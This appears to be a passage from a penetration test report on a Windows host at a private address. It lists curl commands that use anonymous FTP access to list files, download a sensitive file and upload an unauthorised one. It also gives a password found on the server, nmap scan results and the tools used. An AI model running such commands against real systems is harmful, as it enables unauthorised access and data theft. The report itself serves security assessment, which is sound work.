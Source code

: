 ## Technical Details

### Successful Attack Demonstration

**Anonymous FTP Access:**
```bash
# Connect and list files
curl -u anonymous:anonymous ftp://192.168.100.81/

# Download sensitive file
curl -u anonymous:anonymous ftp://192.168.100.81/test.txt

# Upload unauthorized file
curl -u anonymous:anonymous -T pentest.txt ftp://192.168.100.81/
```

**Discovered Credentials:**
```
Password: Password.000000000000000000000000000000002020202
Source: /test.txt via anonymous FTP
```

### Port Scan Results
```
TCP Ports:
21/tcp   open  ftp           FileZilla ftpd 1.10.3
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows SMB
5040/tcp open  unknown
7680/tcp open  unknown

UDP Ports:
137/udp  open  netbios-ns    NetBIOS Name Service
```

### Tools Used
- Nmap 7.95 for port scanning and service enumeration
- Curl for FTP testing and file operations
- Netcat for service probing
- SMBClient for SMB enumeration attempts
- Custom scripts for credential testing

---
**Report Generated:** 2025-06-27 10:40 UTC  
**Assessment Duration:** ~15 minutes  
**Confidence Level:** High  
**Risk Rating:** CRITICAL - Emergency remediation required**

---

## 😨 SECURITY ALERT

